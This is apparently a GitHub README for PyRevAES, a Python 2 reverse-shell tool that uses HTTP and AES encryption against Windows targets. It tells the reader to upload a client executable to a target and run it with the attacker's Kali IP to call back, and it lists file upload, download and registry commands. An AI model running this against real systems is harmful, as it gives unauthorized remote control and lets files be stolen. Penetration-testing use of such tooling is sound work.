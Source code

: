 <h1 align="center">
	<img width="400" src="pyrevaes.png" alt="PyRevAES">
</h1>

# PyRevAES

A Windows Reverse Shell using HTTP methods with 256-bit AES encryption written in python version 2

If I get some time (and encouragement), I will convert this to a python3 project and probably use some oop.

## Usage:
1. Run server_shell_http.py from kali
2. Upload client_shell_http.exe to Windows target
3. Run the following command on the target for a reverse shell without proxy:
```
C:\client_shell_http.exe <kali_ip> 80
```
4. Run the following command for a reverse shell with proxy:
```
C:\client_shell_http.exe <kali_ip> <kali_port> <proxy_address> <Proxy_port>
```

## EXTRAS:
```client_shell_http.py``` - If you want to create your own executable or run directly from python,  code is available.

```TCP_proxy_online.py``` - TCP proxy from ```https://stackoverflow.com/questions/32468270/tcp-proxy-using-python``` Purely the work for voorloop. You might need to modfy lines 16 and 94 for the forwarded reverseshell/port and the proxy port, respectively.

```get-pip.py``` To install pip for python2 (after deprecation). Reference: https://bootstrap.pypa.io/

## COMMANDS:
upload [filename]
download [filename]     => Need to rename file after download.
winreg                  => displays help message


## Install
1. git clone <repo>
2. ```pip2 install -r requirements.txt```
3. ```python2 server_shell_http.py```
4. choose port ```80``` - Other ports may work, but it works best with port ```80```

## Issues
If there are issues with pip2 installation (due to deprecation) refer to this to get pip for python2 working again. ```https://bootstrap.pypa.io/```
If there are issues with pycrypto, install the following:
```sudo apt install build-essential libssl-dev libffi-dev python-dev```
If still having issues, try running everything using sudo.


## Notes:
- Logo made with courtesy of https://www.freelogodesign.org/
- Most of this code is from here ```https://www.trustedsec.com/2012/03/building-a-native-http-shell-with-aes-in-python/``` and about twenty other different sources.  I apologise if I haven't referenced anyone's code here.
